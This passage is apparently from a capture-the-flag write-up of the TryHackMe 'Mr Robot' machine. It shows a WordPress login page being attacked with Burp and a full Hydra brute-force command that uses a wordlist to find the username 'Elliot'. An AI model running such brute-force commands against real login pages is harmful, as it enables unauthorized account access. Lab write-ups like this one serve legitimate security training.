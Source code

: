 ```text
document
mrrobot
<SNIP>
```

## Gaining Access

Save this file for later. Looking back at gobuster list of folders we have wp-login, lets try that:

![wp-login](/assets/images/2020-05-26-21-45-20.png)

The error message for an invalid username means we can brute force the login box to find it, assuming the dictionary file we just found contains it. Fire up Burp first to capture the login response:

![burp-user](/assets/images/2020-05-26-21-45-43.png)

Can use that log line with Hyrdra:

```text
root@kali:~/thm/mrrobot# hydra -L fsocity.dic -p pencer 10.10.175.84 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.175.84%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-25 21:51:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.175.84:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.175.84%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.175.84   login: Elliot   password: pencer
```
